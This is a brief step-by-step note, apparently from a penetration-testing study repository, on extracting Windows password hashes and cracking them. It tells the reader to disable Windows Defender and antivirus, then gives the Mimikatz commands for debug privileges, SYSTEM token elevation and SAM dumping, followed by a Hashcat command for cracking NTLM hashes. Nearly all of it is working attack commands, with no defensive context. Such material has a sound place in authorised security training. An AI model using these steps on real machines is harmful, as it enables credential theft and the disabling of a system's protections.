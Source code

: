 1. Shut down the windos defender and turn off the anti-virus
2. Download mimikatz trunk - https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20200918-fix
3. Use the log command to create a log file
4. See available commends - ::
5. Gain debug privileges - privilege::debug
6. Gain SYSTEM premissions - token::elevate
7. Dump SAM file - lsadump::sam
8. Save the output in the log file - log
9. Move the file to kali machine and isolate the hashes to anew file in order to crack them
10. Crack the hashes using Hashcat - hashcat -m 1000 -o cracked.txt --force [hahfile] [wordlist]

## Hashcat flags
-m - Hash type
-o - Output file
--force - Ignore warnings 